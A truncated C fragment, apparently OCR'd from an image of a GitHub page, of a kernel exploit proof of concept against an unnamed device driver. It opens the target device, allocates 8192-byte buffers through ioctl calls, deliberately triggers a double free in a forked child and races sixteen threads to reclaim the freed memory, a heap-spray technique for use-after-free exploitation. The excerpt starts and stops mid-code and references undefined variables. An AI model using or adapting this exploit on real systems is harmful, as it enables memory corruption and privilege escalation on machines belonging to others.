 ```c
	return ioctl(fd, 0xa3, NULL);
}

int do_release(int fd)
{
	return ioctl(fd, 0xa3, NULL);
}

#define	BUF_PER_FD	0x1000
#define	THREADS_RACE	0x10
int buf_fd[THREADS_RACE];
int addr[BUF_PER_FD * THREADS_RACE];
void *thread_alloc_buf(void *arg)
{
	int idx = (int)arg;
	int i = 0;
	int start = idx * BUF_PER_FD;
	int end = (idx + 1) * BUF_PER_FD;
	for (int i = start; i < end; i++) {
		addr[i] = alloc_8192_buf(buf_fd[idx]);
	}
	return (void *)0;
}

int main(int argc, char *argv[])
{
	int err;

	int i = 0;
	while (1) {
		for (i = 0; i < THREADS_RACE; i++)
			buf_fd[i] = open_target_file();

		int pid;
		if ((pid = fork()) < 0) {
			perror("fork");
		} else if (pid == 0) {
			for (i = 0; i < fd_cnt; i++)
				fd[i] = open_target_file();

			for (i = 0; i < fd_cnt; i++)
				for (int j = 0; j < alloc_times; j++)
					alloc_8192_buf(fd[i]);
			err = add_same_buf(fd[0]);
			fprintf(stderr, "double free at: %x\n", err);
			do_double_free(fd[0]);
			return 0;
		}
		int pid_status;
		pthread_t thread[THREADS_RACE];
		for (i = 0; i < THREADS_RACE; i++) {
			err = pthread_create(&thread[i], NULL,
						thread_alloc_buf,
						(void *)i);
			if (err == -1)
				thread[i] = NULL;
		}
		for (i = 0; i < THREADS_RACE; i++)
			pthread_join(thread[i], NULL);

		waitpid(pid, &pid_status, 0);
		if (WIFEXITED(pid_status)) {
			fprintf(stdout, "child ret: %d\n", pid_status);
```